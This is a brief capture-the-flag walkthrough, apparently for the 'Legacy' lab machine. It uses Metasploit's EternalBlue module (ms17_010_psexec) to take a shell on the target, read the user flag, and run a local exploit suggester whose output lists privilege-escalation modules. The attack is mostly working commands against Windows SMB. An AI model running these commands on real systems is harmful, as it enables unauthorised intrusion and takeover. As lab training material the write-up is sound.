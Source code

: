 # Legacy
## Exploiting Legacy using Eternal Blue | The easy way
* Payload exploit/windows/smb/ms17_010_psexec
* Injecting malicious payload to remote system using outdated vulnerabilities

> There are many ways of doing this machine, but I decided to do this the Eternal Blue way.

Lets get started. Let's first start msfconsole and get us a shell.
```
use windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.4
run
```
*Boom, Magic*
Now we have ourselves access to the remote system.

Lets get the user.txt flag now.
```
shell
dir user.txt /s /p
>  C:\Documents and Settings\john\Desktop\user.txt
```
*User.txt is now ours.*
Now, lets do a quick privesc and getourselves the root flag.
```
use multi/recon/local_exploit_suggester
set SESSION 1
run
```
> Soon you will be granted by a lot of exploits for this old machine
```
[+] 10.10.10.4 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.4 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.4 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.4 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.4 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.4 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.4 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.4 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
> You don't even need to choose one, since you already are the admin.

